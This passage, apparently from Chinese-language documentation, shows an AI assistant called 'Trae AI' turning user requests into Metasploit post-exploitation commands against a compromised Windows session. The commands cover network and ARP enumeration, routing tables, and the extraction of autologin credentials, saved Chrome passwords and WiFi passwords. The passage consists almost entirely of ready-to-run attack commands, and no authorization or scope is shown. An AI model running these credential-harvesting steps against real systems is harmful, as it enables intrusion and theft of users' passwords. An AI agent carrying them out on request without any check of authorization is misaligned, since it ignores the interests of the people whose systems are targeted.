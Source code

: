 ```
set SESSION 1
run
```

### 3. 網絡信息收集

**用戶提問：**
```
收集目標系統的網絡配置和連接信息
```

**Trae AI 操作流程：**
```
# 網絡配置枚舉
use post/windows/gather/enum_network
set SESSION 1
run

# ARP 表信息
use post/windows/gather/arp_scanner
set SESSION 1
run

# 路由表信息
use post/windows/gather/enum_routes
set SESSION 1
run
```

### 4. 憑據收集

**用戶提問：**
```
從目標系統中提取存儲的憑據
```

**Trae AI 操作流程：**
```
# 嘗試提取 Windows 憑據
use post/windows/gather/credentials/windows_autologin
set SESSION 1
run

# 提取瀏覽器保存的密碼
use post/windows/gather/enum_chrome
set SESSION 1
run

# 提取 WiFi 密碼
use post/windows/gather/enum_wlan_profiles
set SESSION 1
run
```
